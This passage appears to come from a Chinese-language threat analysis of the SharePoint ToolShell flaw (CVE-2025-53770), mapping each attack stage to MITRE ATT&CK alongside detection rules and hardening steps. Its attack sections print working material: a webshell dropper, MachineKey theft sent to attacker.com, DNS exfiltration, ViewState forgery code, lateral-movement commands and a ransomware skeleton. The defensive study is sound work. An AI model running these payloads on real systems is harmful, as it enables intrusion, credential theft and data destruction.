$webshellPath = "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx"

# 1. 创建 ASPX webshell (简化版)
$webshellContent = @'
<%@ Page Language="C#" %>
<%
  if (Request["cmd"] != null) {
    Response.Write(System.Diagnostics.Process.Start("cmd.exe", "/c " + Request["cmd"]).StandardOutput.ReadToEnd());
  }
%>
'@
[IO.File]::WriteAllText($webshellPath, $webshellContent)

# 2. 提取 MachineKey
$webConfig = [xml](Get-Content "C:\inetpub\wwwroot\wss\VirtualDirectories\80\web.config")
$machineKey = $webConfig.configuration.'system.web'.machineKey
$validationKey = $machineKey.validationKey
$decryptionKey = $machineKey.decryptionKey

# 3. 回传到攻击者 (通过 DNS/HTTP)
Invoke-WebRequest -Uri "http://attacker.com/exfil?vk=$validationKey&dk=$decryptionKey" -UseBasicParsing
```

**IOC 特征**:

* 进程链: `w3wp.exe` → `cmd.exe` → `powershell.exe`
* 命令行包含 `-EncodedCommand` 或 `-enc`
* 文件创建: `LAYOUTS\sp*.aspx` (如 spinstall0.aspx, spupdate1.aspx)
* 网络连接: w3wp.exe 发起出站 HTTP/HTTPS 连接

#### 9.5 阶段5: 持久化 - Webshell 部署 (Persistence)

**MITRE ATT&CK**: T1505.003 (Server Software Component: Web Shell)

**典型 webshell 家族** (根据 Microsoft 威胁情报):

```
1. spinstall0.aspx  (初始植入,功能简单)
2. spupdate1.aspx   (备用 webshell)
3. error404.aspx    (伪装成错误页面)
4. _layouts.aspx    (混淆命名)
```

**检测方法**:

```
# PowerShell 威胁狩猎脚本
$layoutsPath = "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\*\TEMPLATE\LAYOUTS"
$suspiciousFiles = Get-ChildItem -Path $layoutsPath -Filter "*.aspx" -Recurse |
  Where-Object {
    # 检测条件:
    $_.CreationTimeUtc -gt (Get-Date).AddDays(-7) -and  # 最近创建
    $_.Length -lt 10KB -and                             # 小文件 (webshell 通常很小)
    (Select-String -Path $_.FullName -Pattern "Request\[|eval\(|Process\.Start" -Quiet)  # 可疑代码
  }

foreach ($file in $suspiciousFiles) {
  Write-Host "[!] 可疑 webshell: $($file.FullName)" -ForegroundColor Red
  Write-Host "    创建时间: $($file.CreationTimeUtc)"
  Write-Host "    大小: $($file.Length) bytes"
}
```

**YARA 规则**:

```
rule SharePoint_ToolShell_Webshell
{
    meta:
        description = "检测 CVE-2025-53770 相关 webshell"
        author = "Security Team"
        reference = "CVE-2025-53770"
    
    strings:
        $aspx = "<%@ Page" nocase
        $request1 = "Request[" nocase
        $request2 = "Request.Form[" nocase
        $exec1 = "Process.Start" nocase
        $exec2 = "System.Diagnostics.Process" nocase
        $exec3 = "cmd.exe /c" nocase
        $eval = "eval(" nocase
    
    condition:
        $aspx at 0 and 2 of ($request*, $exec*, $eval)
}
```

#### 9.6 阶段6: 凭据提取 - MachineKey 窃取 (Credential Access)

**MITRE ATT&CK**: T1552.001 (Unsecured Credentials: Credentials In Files)

**MachineKey 位置**:

```
<!-- C:\inetpub\wwwroot\wss\VirtualDirectories\80\web.config -->
<configuration>
  <system.web>
    <machineKey 
      validationKey="ABCD1234...5678EFGH"  (128 hex chars = 64 bytes)
      decryptionKey="1234ABCD...EFGH5678"  (48 hex chars = 24 bytes for AES)
      validation="HMACSHA256"
      decryption="AES"
    />
  </system.web>
</configuration>
```

**提取脚本** (PowerShell):

```
function Extract-MachineKey {
    param(
        [string]$WebConfigPath = "C:\inetpub\wwwroot\wss\VirtualDirectories\80\web.config"
    )
    
    [xml]$config = Get-Content $WebConfigPath
    $mk = $config.configuration.'system.web'.machineKey
    
    return @{
        ValidationKey = $mk.validationKey
        DecryptionKey = $mk.decryptionKey
        Validation = $mk.validation
        Decryption = $mk.decryption
    }
}

# 攻击者使用
$keys = Extract-MachineKey
Write-Output "VK:$($keys.ValidationKey)"
Write-Output "DK:$($keys.DecryptionKey)"
```

**防守建议**:

```
# 1. 定期轮换 MachineKey
function Rotate-MachineKey {
    Add-PSSnapin Microsoft.SharePoint.PowerShell -ErrorAction SilentlyContinue
    
    # 生成新密钥
    $newVK = -join ((48..57) + (65..70) | Get-Random -Count 128 | ForEach-Object {[char]$_})
    $newDK = -join ((48..57) + (65..70) | Get-Random -Count 48 | ForEach-Object {[char]$_})
    
    # 更新所有 web.config
    $webConfigs = Get-SPWebApplication | ForEach-Object {
        Join-Path $_.IisSettings[0].Path.FullName "web.config"
    }
    
    foreach ($config in $webConfigs) {
        [xml]$xml = Get-Content $config
        $mk = $xml.configuration.'system.web'.machineKey
        $mk.validationKey = $newVK
        $mk.decryptionKey = $newDK
        $xml.Save($config)
    }
    
    # 重启 IIS
    iisreset /noforce
}
```

#### 9.7 阶段7: ViewState 伪造 (Defense Evasion)

**MITRE ATT&CK**: T1027 (Obfuscated Files or Information)

**ViewState 结构** (ASP.NET 内部):

```
┌──────────────────────────────────────┐
│ ViewState 原始对象 (序列化前)          │
│ ┌──────────────────────────────────┐ │
│ │ ObjectStateFormatter 序列化       │ │
│ │ └─→ 二进制流 (Serialized Bytes)  │ │
│ └──────────────────────────────────┘ │
│            ↓ 签名                    │
│ ┌──────────────────────────────────┐ │
│ │ HMAC-SHA256(Bytes, ValidationKey)│ │
│ │ └─→ MAC Tag (32 bytes)           │ │
│ └──────────────────────────────────┘ │
│            ↓ 拼接                    │
│ ┌──────────────────────────────────┐ │
│ │ [MAC][Serialized Bytes]          │ │
│ └──────────────────────────────────┘ │
│            ↓ Base64                  │
│ __VIEWSTATE = "Base64String..."      │
└──────────────────────────────────────┘
```

**伪造代码** (C# 示例,基于 ysoserial.net):

```
using System;
using System.IO;
using System.Web;
using System.Web.UI;
using System.Security.Cryptography;

public class ViewStateForgery
{
    public static string GenerateMaliciousViewState(
        string validationKey,
        string decryptionKey,
        object payload)  // 通常是 ObjectDataProvider gadget
    {
        // 1. 序列化 payload
        LosFormatter formatter = new LosFormatter();
        using (MemoryStream ms = new MemoryStream())
        {
            formatter.Serialize(ms, payload);
            byte[] serializedBytes = ms.ToArray();
            
            // 2. 计算 HMAC 签名
            byte[] vkBytes = HexStringToBytes(validationKey);
            using (HMACSHA256 hmac = new HMACSHA256(vkBytes))
            {
                byte[] mac = hmac.ComputeHash(serializedBytes);
                
                // 3. 拼接 MAC + 数据
                byte[] signedData = new byte[mac.Length + serializedBytes.Length];
                Buffer.BlockCopy(mac, 0, signedData, 0, mac.Length);
                Buffer.BlockCopy(serializedBytes, 0, signedData, mac.Length, serializedBytes.Length);
                
                // 4. Base64 编码
                return Convert.ToBase64String(signedData);
            }
        }
    }
    
    private static byte[] HexStringToBytes(string hex)
    {
        byte[] bytes = new byte[hex.Length / 2];
        for (int i = 0; i < bytes.Length; i++)
            bytes[i] = Convert.ToByte(hex.Substring(i * 2, 2), 16);
        return bytes;
    }
}
```

**攻击流程**:

```
1. 获取 MachineKey (阶段6)
2. 构造恶意对象 (ObjectDataProvider + Process.Start)
3. 使用 MachineKey 伪造合法 ViewState
4. 发送到任意 SharePoint 页面:
   POST /Pages/Default.aspx
   __VIEWSTATE=<forged_viewstate>&__VIEWSTATEGENERATOR=<任意值>
5. ASP.NET 验证签名 → 通过! (因为使用了正确的 ValidationKey)
6. 反序列化 ViewState → 触发 ObjectDataProvider → RCE
```

#### 9.8 阶段8: 横向移动 (Lateral Movement)

**MITRE ATT&CK**: T1021.002 (Remote Services: SMB/Windows Admin Shares)

**典型路径**:

```
# 1. 从 SharePoint 服务器枚举域环境
Import-Module ActiveDirectory
Get-ADComputer -Filter * | Select Name, IPv4Address

# 2. 利用 SharePoint 服务账户权限 (通常是域管理员)
$cred = Get-Credential  # SharePoint Farm Account
Invoke-Command -ComputerName DC01 -Credential $cred -ScriptBlock {
    # 在域控执行命令
    whoami /priv
}

# 3. 窃取更多凭据
Invoke-Mimikatz -DumpCreds  # 如果已部署 Mimikatz

# 4. 横向到 SQL Server (SharePoint 后端数据库)
Invoke-Sqlcmd -ServerInstance SQL01 -Query "SELECT * FROM WSS_Content.dbo.AllUserData"
```

**检测点**:

```
<!-- Sysmon 配置: 检测横向移动 -->
<Sysmon schemaversion="4.82">
  <EventFiltering>
    <NetworkConnect onmatch="include">
      <Image condition="is">C:\Windows\System32\inetsrv\w3wp.exe</Image>
      <DestinationPort condition="is">445</DestinationPort>  <!-- SMB -->
    </NetworkConnect>
    
    <ProcessCreate onmatch="include">
      <ParentImage condition="is">C:\Windows\System32\inetsrv\w3wp.exe</ParentImage>
      <Image condition="contains">net.exe</Image>  <!-- 域枚举 -->
    </ProcessCreate>
  </EventFiltering>
</Sysmon>
```

#### 9.9 阶段9: 数据窃取 (Collection & Exfiltration)

**MITRE ATT&CK**:

* T1005 (Data from Local System)
* T1041 (Exfiltration Over C2 Channel)

**SharePoint 敏感数据位置**:

```
-- SQL Server 查询 SharePoint 内容数据库
USE WSS_Content;

-- 1. 所有文档
SELECT 
    DirName,        -- 文档库路径
    LeafName,       -- 文件名
    Size,           -- 文件大小
    TimeLastModified
FROM AllDocs
WHERE Type = 0  -- 0=文档, 1=文件夹
ORDER BY Size DESC;

-- 2. 用户权限
SELECT 
    tp_Title,       -- 用户/组名称
    tp_Login,       -- 登录名
    tp_Email
FROM UserInfo;

-- 3. 列表数据
SELECT * FROM AllUserData
WHERE tp_ListId = '<某个列表的GUID>';
```

**数据打包与外传**:

```
# 攻击者脚本 (在 webshell 中执行)
$targetPath = "C:\inetpub\wwwroot\wss\VirtualDirectories\80"
$outputZip = "C:\Windows\Temp\data.zip"

# 1. 压缩敏感数据
Compress-Archive -Path $targetPath -DestinationPath $outputZip

# 2. 分块外传 (规避 DLP)
$chunks = [IO.File]::ReadAllBytes($outputZip) | 
  Group-Object {[math]::Floor($_.Index / 1MB)} |
  ForEach-Object { $_.Group }

foreach ($chunk in $chunks) {
    $b64 = [Convert]::ToBase64String($chunk)
    # 通过 DNS TXT 查询外传 (隐蔽)
    nslookup -type=TXT "$b64.exfil.attacker.com"
}
```

#### 9.10 阶段10: 影响与破坏 (Impact)

**MITRE ATT&CK**: T1486 (Data Encrypted for Impact - Ransomware)

**真实攻击案例** (根据 Microsoft 威胁情报):

```
2025-07-18 事件时间线:
00:00 - 攻击者扫描发现易受攻击的 SharePoint
00:15 - 利用 CVE-2025-53770 获取初始访问
00:20 - 部署 webshell (spinstall0.aspx)
00:30 - 提取 MachineKey
01:00 - 横向移动到域控和 SQL Server
02:00 - 部署勒索软件 (Linen Typhoon 变种)
02:30 - 加密所有 SharePoint 内容数据库
03:00 - 显示勒索信息,要求支付比特币
```

**勒索软件行为**:

```
# 典型勒索软件操作 (仅用于检测开发,非真实恶意软件)
# 1. 停止 SharePoint 服务
Stop-Service SPTimerV4, SPAdminV4, W3SVC

# 2. 加密数据库文件
$mdfFiles = Get-ChildItem "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA" -Filter "*.mdf"
foreach ($file in $mdfFiles) {
    # 使用 AES-256 加密
    # (实际代码省略)
    Rename-Item $file.FullName "$($file.FullName).encrypted"
}

# 3. 删除 VSS 卷影副本
vssadmin Delete Shadows /All /Quiet

# 4. 留下勒索信
$ransomNote = @"
Your SharePoint server has been encrypted!
To decrypt, pay 50 BTC to: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa
"@
Set-Content "C:\README_DECRYPT.txt" $ransomNote
```

**防护措施**:

```
# 1. 启用 FSRM 文件屏蔽 (防勒索软件)
New-FsrmFileGroup -Name "RansomwareExtensions" -IncludePattern @("*.encrypted","*.locked","*.crypto")
New-FsrmFileScreen -Path "C:\Program Files\Microsoft SQL Server" -Template "Block Ransomware Files"

# 2. 配置 VSS 保护
vssadmin Resize ShadowStorage /For=C: /On=C: /MaxSize=20%
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\VSS\Diag" -Name "FilterTrace" -Value 1

# 3. 实时监控
Register-WmiEvent -Query "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'CIM_DataFile' AND TargetInstance.Extension = 'encrypted'" -Action {
    Write-EventLog -LogName Security -Source "AntiRansomware" -EventId 9999 -Message "检测到勒索软件活动!"
    Stop-Process -Name w3wp -Force
}
```

### 第10章: PoC 结构分析 (防守视角)

#### 10.1 PoC 的四层结构

**层1: 请求层 (HTTP Request)**

```
POST /_layouts/15/ToolPane.aspx HTTP/1.1
Host: target.com
Referer: https://target.com/_layouts/SignOut.aspx
Content-Type: application/x-www-form-urlencoded
Content-Length: <large_value>

MSOtlPn_DWP=<WebPart_Markup>&MSOtlPn_Uri=<Uri>&__VIEWSTATE=<State>&<Large_Compressed_Field>=<Base64_GZip_Data>
```

**关键特征** (用于检测):

* Referer 包含 `SignOut.aspx`
* POST 到 `ToolPane.aspx`
* Content-Length 异常大 (通常 >50KB)
* 包含 Base64 编码的大字段

**检测规则** (Snort):

```
alert tcp any any -> any 443 (
  msg:"CVE-2025-53770 ToolShell Exploit Attempt";
  flow:established,to_server;
  content:"POST"; http_method;
  content:"/_layouts/15/ToolPane.aspx"; http_uri;
  content:"Referer|3a 20|"; http_header;
  content:"SignOut.aspx"; http_header;
  pcre:"/Content-Length\x3a\s+[5-9]\d{4,}/i";
  reference:cve,2025-53770;
  classtype:web-application-attack;
  sid:2025001; rev:1;
)
```

**层2: 控件层 (WebPart Markup)**

```
<!-- MSOtlPn_DWP 参数的典型结构 -->
<webParts>
  <webPart xmlns="http://schemas.microsoft.com/WebPart/v3">
    <metaData>
      <type name="Microsoft.PerformancePoint.Scorecards.Client.ExcelDataSet, ..." />
    </metaData>
    <data>
      <properties>
        <property name="CompressedDataTable" type="string">
          <![CDATA[<Base64_GZip_Payload>]]>
        </property>
      </properties>
    </data>
  </webPart>
</webParts>
```

**防守分析点**:

* WebPart 类型: `ExcelDataSet` (PerformancePoint 组件)
* 属性名: `CompressedDataTable`
* 数据编码: Base64 + GZip

**WAF 规则** (ModSecurity):

```
SecRule REQUEST_BODY "@rx (?i)ExcelDataSet.*CompressedDataTable.*[A-Za-z0-9+/]{1000,}" \
  "id:2025002,\
   phase:2,\
   block,\
   log,\
   msg:'CVE-2025-53770: Suspicious ExcelDataSet with large CompressedDataTable',\
   severity:CRITICAL,\
   tag:'CVE-2025-53770',\
   tag:'OWASP_CRS'"
```

**层3: 载荷层 (GZip + BinaryFormatter)**

```
# 防守分析脚本: 解压并检查 (不执行!)
import base64, gzip, io

def analyze_payload(b64_data):
    """仅分析结构,不反序列化"""
    try:
        # 解码
        compressed = base64.b64decode(b64_data)
        
        # 解压
        with gzip.GzipFile(fileobj=io.BytesIO(compressed)) as gz:
            raw_bytes = gz.read()
        
        # 检查 BinaryFormatter 签名
        if raw_bytes[0:1] == b'\x00':  # BinaryFormatter header
            print("[!] 检测到 BinaryFormatter 序列化数据")
            
            # 检查危险类型 (不实例化,仅字符串搜索)
            dangerous_types = [
                b'ObjectDataProvider',
                b'Process',
                b'ProcessStartInfo',
                b'TypeConfuseDelegate'
            ]
            for dtype in dangerous_types:
                if dtype in raw_bytes:
                    print(f"[!] 检测到危险类型: {dtype.decode()}")
        
        return len(raw_bytes)
    except Exception as e:
        print(f"[*] 分析失败: {e}")
        return 0

# 使用示例 (用于日志分析)
# payload_size = analyze_payload(request_body['CompressedDataTable'])
```

**层4: 持久化层 (Webshell Dropper)**

```
文件名模式:
- spinstall*.aspx
- spupdate*.aspx
- error404.aspx (伪装)
- _layouts.aspx (混淆)

文件路径:
C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\

创建时间: 
- 通常在攻击后 1-5 分钟内

文件大小:
- 1-10 KB (小型 webshell)

文件特征:
- 包含 Request["cmd"] 或 Request.Form["..."]
- 包含 Process.Start 或 eval()
- Base64 编码的 PowerShell 命令
```

**检测脚本** (PowerShell):

```
# 实时文件系统监控
$watcher = New-Object System.IO.FileSystemWatcher
$watcher.Path = "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions"
$watcher.Filter = "*.aspx"
$watcher.IncludeSubdirectories = $true
$watcher.EnableRaisingEvents = $true

$action = {
    $path = $Event.SourceEventArgs.FullPath
    $changeType = $Event.SourceEventArgs.ChangeType
    
    if ($changeType -eq 'Created') {
        # 分析新文件
        $content = Get-Content $path -Raw
        if ($content -match 'Request\[|Process\.Start|eval\(') {
            Write-Host "[!] 检测到可疑 webshell: $path" -ForegroundColor Red
            
            # 自动响应: 隔离文件
            $quarantine = "C:\Quarantine\$(Split-Path $path -Leaf)_$(Get-Date -F yyyyMMddHHmmss)"
            Move-Item $path $quarantine -Force
            
            # 记录事件
            Write-EventLog -LogName Security -Source "SharePoint-Defense" -EventId 5001 -EntryType Warning -Message "隔离可疑文件: $path → $quarantine"
        }
    }
}

Register-ObjectEvent -InputObject $watcher -EventName Created -Action $action
```

#### 10.2 PoC 触发的服务端调用栈 (详细版)

```
[调用层级]  [方法名]                                    [作用]
─────────────────────────────────────────────────────────────────────
[1]  System.Web.HttpApplication.ProcessRequest()
     └─ IIS 接收 HTTP 请求

[2]  Microsoft.SharePoint.ApplicationRuntime.SPRequestModule.PostAuthenticateRequestHandler()
     └─ 鉴权绕过逻辑被触发 (检查 Referer)
     └─ if (Referer.EndsWith("SignOut.aspx")) → _skipAuthCheck = true

[3]  System.Web.UI.Page.ProcessRequest()
     └─ 进入 ToolPane.aspx 页面生命周期

[4]  ToolPane.OnLoad(EventArgs e)
     └─ 读取 Request["MSOtlPn_DWP"]

[5]  System.Web.UI.WebControls.WebParts.WebPartManager.CreateWebPart()
     └─ 解析 WebPart XML 标记
     └─ 实例化 ExcelDataSet 控件

[6]  Microsoft.PerformancePoint.Scorecards.Client.ExcelDataSet.set_CompressedDataTable(string value)
     └─ this._compressedData = value;  (存储 Base64 数据)

[7]  ToolPane.Page_Load() 或 DataBind()
     └─ 访问 excelDataSet.DataTable 属性

[8]  ExcelDataSet.get_DataTable()  ← 关键危险点!
     └─ byte[] bytes = Convert.FromBase64String(this._compressedData);
     └─ GZipStream gzip = new GZipStream(new MemoryStream(bytes), CompressionMode.Decompress);
     └─ BinaryFormatter formatter = new BinaryFormatter();
     └─ object obj = formatter.Deserialize(gzip);  ← CWE-502 触发

[9]  BinaryFormatter.Deserialize(Stream)
     └─ 读取类型元数据: System.Windows.Data.ObjectDataProvider
     └─ 调用 ObjectDataProvider 构造函数
     └─ 恢复字段: ObjectInstance, MethodName, MethodParameters

[10] ObjectDataProvider.get_Data()  (属性 getter 自动调用)
     └─ MethodInfo method = ObjectInstance.GetType().GetMethod(MethodName);
     └─ return method.Invoke(ObjectInstance, MethodParameters);

[11] System.Diagnostics.Process.Start(string fileName, string arguments)
     └─ fileName = "powershell.exe"
     └─ arguments = "-EncodedCommand <Base64_Payload>"
     └─ CreateProcess() Win32 API 调用

[12] w3wp.exe → cmd.exe → powershell.exe
     └─ 代码执行成功!
```

**每层的防守检测点**:

|  |  |  |
| --- | --- | --- |
| 层级 | 检测技术 | 工具/日志 |
| 1-2 | HTTP 请求特征 | IIS 日志,WAF |
| 3-4 | 页面访问模式 | SharePoint ULS 日志 |
| 5-6 | 控件实例化 | AMSI (反恶意软件扫描接口) |
| 7-8 | 反序列化行为 | .NET ETW 事件 |
| 9-10 | Gadget 链检测 | AppLocker,WDAC |
| 11-12 | 进程创建 | Sysmon,EDR |

#### 10.3 防守验证环境搭建 (Non-Weaponized)

**目标**: 验证检测规则有效性,不复现真实攻击。

```
# 防守验证脚本: 生成良性测试流量
import requests, base64, gzip, json

def generate_safe_test_traffic(target_url):
    """生成形似攻击但无害的测试流量"""
    
    # 1. 创建安全的 JSON 载荷 (非对象图)
    safe_data = {
        "test": "benign_data",
        "timestamp": "2025-11-07T00:00:00Z"
    }
    json_bytes = json.dumps(safe_data).encode()
    
    # 2. GZip 压缩
    compressed = gzip.compress(json_bytes)
    
    # 3. Base64 编码
    b64_payload = base64.b64encode(compressed).decode()
    
    # 4. 构造请求 (触发检测,但不利用)
    headers = {
        'Referer': target_url + '/_layouts/SignOut.aspx',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    
    data = {
        'MSOtlPn_DWP': '<webParts><webPart><metaData><type name="SafeControl"/></metaData></webPart></webParts>',
        'TestField': b64_payload
    }
    
    # 5. 发送请求 (应被 WAF/IDS 检测)
    try:
        response = requests.post(
            target_url + '/_layouts/15/ToolPane.aspx',
            headers=headers,
            data=data,
            verify=False,
            timeout=10
        )
        return response.status_code
    except Exception as e:
        return f"Blocked: {e}"

# 使用
# result = generate_safe_test_traffic("https://test-sharepoint.local")
# 期望: 被 WAF 阻断 (403/406) 或 IDS 告警
```

### 第11章: 利用工具与技术

仅分析工具原理,不提供完整可用工具。

#### 11.1 ysoserial.net 工具分析

**工具用途**: 生成 .NET 反序列化 payload (gadget chains)。

**核心原理**:

```
输入: 
  - Gadget 类型 (如 ObjectDataProvider)
  - 命令 (如 calc.exe)
  - 格式化器 (BinaryFormatter/LosFormatter/...)

处理流程:
  1. 构造对象图 (合法 .NET 类的组合)
  2. 序列化为字节流
  3. 输出 Base64 或直接二进制

输出:
  - 序列化后的字节流 (可触发代码执行)
```

**TypeConfuseDelegate Gadget 原理**

```
// Gadget 对象结构 (简化版)
public class TypeConfuseDelegateGadget
{
    // 第一步: 创建委托,指向危险方法
    Comparison<string> comparison = new Comparison<string>(Process.Start);
    
    // 第二步: 类型混淆 (欺骗序列化器)
    Comparison<string> confused = (Comparison<string>)Delegate.CreateDelegate(
        typeof(Comparison<string>),
        typeof(Process).GetMethod("Start", new[] { typeof(string) })
    );
    
    // 第三步: 构造触发器 (SortedSet 会调用 Comparer)
    SortedSet<string> trigger = new SortedSet<string>(new DelegateComparer(confused));
    trigger.Add("powershell.exe -c calc");  // 添加元素时触发 Compare → Process.Start
    
    return trigger;  // 序列化这个对象
}

// 反序列化时:
// 1. SortedSet 被还原
// 2. 调用 Comparer.Compare() 排序元素
// 3. Comparer 内部调用 confused 委托
// 4. 委托指向 Process.Start
// 5. 传入 "powershell.exe -c calc"
// 6. 代码执行!
```

**检测 ysoserial.net 生成的 Payload**:

```
# 分析二进制流中的危险类型
def detect_gadget_chain(serialized_bytes):
    """检测常见 gadget chain 特征"""
    dangerous_patterns = [
        b'System.Windows.Data.ObjectDataProvider',
        b'System.Diagnostics.Process',
        b'System.Configuration.Install.AssemblyInstaller',
        b'System.Activities.Presentation.WorkflowDesigner',
        b'TextFormattingRunProperties',
        b'TypeConfuseDelegate',
        b'SortedSet`1'
    ]
    
    detected = []
    for pattern in dangerous_patterns:
        if pattern in serialized_bytes:
            detected.append(pattern.decode('utf-8', errors='ignore'))
    
    return detected

# 使用
# gadgets = detect_gadget_chain(raw_payload_bytes)
# if gadgets:
#     print(f"[!] 检测到 gadget chain: {', '.join(gadgets)}")
```

#### 11.2 MachineKey 提取技术

**方法1: 文件读取** (CVE-2025-49704 配合使用)

```
# 攻击者视角 (仅用于理解防守)
# 利用文件读取漏洞获取 web.config
$webConfigPath = "C:\inetpub\wwwroot\wss\VirtualDirectories\80\web.config"
$content = Get-Content $webConfigPath -Raw

# 提取 MachineKey
$vk = [regex]::Match($content, 'validationKey="([A-F0-9]+)"').Groups[1].Value
$dk = [regex]::Match($content, 'decryptionKey="([A-F0-9]+)"').Groups[1].Value

Write-Output "ValidationKey: $vk"
Write-Output "DecryptionKey: $dk"
```

**方法2: 内存转储** (需要管理员权限)

```
# 使用 Procdump 转储 w3wp.exe 内存
procdump64.exe -ma w3wp.exe w3wp.dmp

# 使用字符串搜索
strings64.exe w3wp.dmp | Select-String -Pattern "validationKey|decryptionKey"
```

**防守措施**:

```
# 1. 加密 web.config 中的 machineKey 节
aspnet_regiis -pe "system.web/machineKey" -app "/WSS" -prov "RsaProtectedConfigurationProvider"

# 加密后的 web.config:
<machineKey configProtectionProvider="RsaProtectedConfigurationProvider">
  <EncryptedData Type="http://www.w3.org/2001/04/xmlenc#Element"
    xmlns="http://www.w3.org/2001/04/xmlenc#">
    <EncryptionMethod Algorithm="http://www.w3.org/2001/04/xmlenc#aes256-cbc" />
    <KeyInfo xmlns="http://www.w3.org/2000/09/xmldsig#">
      <EncryptedKey>...</EncryptedKey>
    </KeyInfo>
    <CipherData>
      <CipherValue>...</CipherValue>
    </CipherData>
  </EncryptedData>
</machineKey>

# 2. 限制文件访问权限
icacls "C:\inetpub\wwwroot\wss\VirtualDirectories\*\web.config" /inheritance:r /grant "SYSTEM:(F)" "Administrators:(F)"
```

#### 11.3 ViewState 伪造技术细节

**HMAC-SHA256 签名过程**:

```
// ASP.NET 内部签名逻辑 (简化版)
public static byte[] SignViewState(byte[] data, byte[] validationKey)
{
    using (HMACSHA256 hmac = new HMACSHA256(validationKey))
    {
        byte[] hash = hmac.ComputeHash(data);
        
        // 拼接: [Hash][Data]
        byte[] signed = new byte[hash.Length + data.Length];
        Buffer.BlockCopy(hash, 0, signed, 0, hash.Length);
        Buffer.BlockCopy(data, 0, signed, hash.Length, data.Length);
        
        return signed;
    }
}

// 验证逻辑
public static bool VerifyViewState(byte[] signedData, byte[] validationKey)
{
    int hashSize = 32;  // SHA256 = 32 bytes
    
    // 分离 Hash 和 Data
    byte[] receivedHash = new byte[hashSize];
    byte[] data = new byte[signedData.Length - hashSize];
    Buffer.BlockCopy(signedData, 0, receivedHash, 0, hashSize);
    Buffer.BlockCopy(signedData, hashSize, data, 0, data.Length);
    
    // 重新计算 Hash
    using (HMACSHA256 hmac = new HMACSHA256(validationKey))
    {
        byte[] computedHash = hmac.ComputeHash(data);
        
        // 比对 (时序安全比较)
        return CryptographicEquals(receivedHash, computedHash);
    }
}
```

**伪造攻击流程**:

```
1. 获取 ValidationKey (通过 CVE-2025-49704 或内存转储)
2. 构造恶意对象 (使用 ysoserial.net)
3. 使用 LosFormatter 序列化对象
4. 使用 ValidationKey 计算 HMAC-SHA256
5. 拼接 Hash + Data
6. Base64 编码
7. 设置为 __VIEWSTATE 参数
8. 发送到任意 SharePoint 页面
9. ASP.NET 验证签名 → 通过 (因为我们有正确的 Key)
10. 反序列化 ViewState → 触发 gadget → RCE
```

**检测伪造 ViewState**:

```
// 异常检测: ViewState 大小异常
protected void Page_Init(object sender, EventArgs e)
{
    string viewState = Request["__VIEWSTATE"];
    if (!string.IsNullOrEmpty(viewState))
    {
        byte[] vsBytes = Convert.FromBase64String(viewState);
        
        // 正常 ViewState 通常 <10KB
        if (vsBytes.Length > 50 * 1024)  // 50KB
        {
            // 记录并阻断
            LogSecurityEvent("Abnormally large ViewState detected", 
                new { Size = vsBytes.Length, IP = Request.UserHostAddress });
            
            Response.StatusCode = 400;
            Response.End();
        }
    }
}
```

## PART IV: 检测与防护

### 第12章: 多层检测策略

从网络到主机的7层检测架构

#### 12.1 网络层检测 (Layer 1-2)

**12.1.1 Snort IDS 规则**

```
# 规则1: 检测基本攻击模式
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
  msg:"CVE-2025-53770 ToolShell Exploit - ToolPane.aspx Access with SignOut Referer";
  flow:established,to_server;
  content:"POST"; http_method;
  content:"/_layouts/"; http_uri; depth:10;
  content:"ToolPane.aspx"; http_uri; distance:0;
  content:"Referer|3a|"; http_header;
  content:"SignOut.aspx"; http_header; distance:0;
  reference:cve,2025-53770;
  classtype:web-application-attack;
  sid:2025770; rev:2;
)

# 规则2: 检测大型 POST 请求 (可能包含压缩载荷)
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
  msg:"CVE-2025-53770 Large POST to ToolPane.aspx";
  flow:established,to_server;
  content:"POST"; http_method;
  content:"ToolPane.aspx"; http_uri;
  content:"Content-Length|3a|"; http_header;
  byte_test:5,>,51200,0,string,dec,relative;  # >50KB
  reference:cve,2025-53770;
  sid:2025771; rev:1;
)

# 规则3: 检测 CompressedDataTable 参数
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
  msg:"CVE-2025-53770 CompressedDataTable Parameter Detected";
  flow:established,to_server;
  content:"POST"; http_method;
  content:"ToolPane.aspx"; http_uri;
  content:"CompressedDataTable"; http_client_body;
  content:"ExcelDataSet"; http_client_body; distance:0; within:500;
  reference:cve,2025-53770;
  sid:2025772; rev:1;
)

# 规则4: 检测 webshell 上传 (POST 到 LAYOUTS 目录)
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
  msg:"CVE-2025-53770 Potential Webshell Upload to LAYOUTS";
  flow:established,to_server;
  content:"POST"; http_method;
  content:"/_layouts/15/"; http_uri;
  content:".aspx"; http_uri; distance:0;
  content:"<%"; http_client_body; depth:500;
  content:"Process.Start"; http_client_body; distance:0; within:1000;
  reference:cve,2025-53770;
  sid:2025773; rev:1;
)
```

**12.1.2 Suricata 规则** (更现代的语法)

```
# 检测 TLS 加密流量中的 SNI + URI 组合
alert tls $EXTERNAL_NET any -> $HOME_NET 443 (
  msg:"CVE-2025-53770 TLS Connection to SharePoint ToolPane";
  tls.sni; content:".sharepoint."; 
  flow:to_server,established;
  ja3.hash; content:"<known_attacker_ja3>";  # 已知攻击者 TLS 指纹
  reference:cve,2025-53770;
  sid:3025770; rev:1;
)

# HTTP/2 支持
alert http2 $EXTERNAL_NET any -> $HOME_NET any (
  msg:"CVE-2025-53770 HTTP/2 ToolPane Access";
  http.method; content:"POST";
  http.uri; content:"/_layouts/15/ToolPane.aspx";
  http.header; content:"referer"; content:"SignOut.aspx";
  reference:cve,2025-53770;
  sid:3025771; rev:1;
)
```

#### 12.2 应用层检测 (Layer 3-4)

**12.2.1 ModSecurity WAF 规则**

```
# 规则1: 阻断 ToolPane.aspx 匿名访问
